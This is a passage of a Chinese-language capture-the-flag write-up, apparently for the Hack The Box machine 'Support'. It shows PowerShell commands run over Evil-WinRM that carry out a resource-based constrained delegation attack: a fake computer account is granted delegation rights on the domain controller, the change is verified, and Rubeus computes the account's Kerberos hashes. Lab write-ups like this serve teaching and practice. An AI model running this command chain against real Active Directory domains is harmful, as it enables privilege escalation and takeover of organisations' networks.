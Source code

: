 获取 FAKE 计算机 SID , 保存到变量中
```powershell
*Evil-WinRM* PS C:\Users\support\downloads> $fakesid = get-domaincomputer fakecomputer | select -expand objectsid
*Evil-WinRM* PS C:\Users\support\downloads> $fakesid
S-1-5-21-1677581083-3380853377-188903654-6101
```

配置信息达到欺骗
```powershell
*Evil-WinRM* PS C:\Users\support\downloads> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\Users\support\downloads> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\downloads> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\downloads> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

验证
```powershell
*Evil-WinRM* PS C:\Users\support\downloads> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\Users\support\downloads> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\Users\support\downloads> $Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-6101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

使用 rubeus 获取 fakecomputer 的 hash (aes256_cts_hmac_sha1 , 主机名后要加$)
```powershell
*Evil-WinRM* PS C:\Users\support\downloads> .\Rubeus.exe hash /password:xek@123 /user:fakecomputer$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : xek@123
[*] Input username             : fakecomputer$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfakecomputer.support.htb
[*]       rc4_hmac             : 3EF14F9550F524019996E9251C598D9A
[*]       aes128_cts_hmac_sha1 : 4BEA04F78AFA1D276D14372F604A8CC5
[*]       aes256_cts_hmac_sha1 : BF18C480A45562831DB95D35AA5FE0E0C57E5D7A12D71F6DAB0861386A4AD1C3
[*]       des_cbc_md5          : CE2FFDC8077C0846

```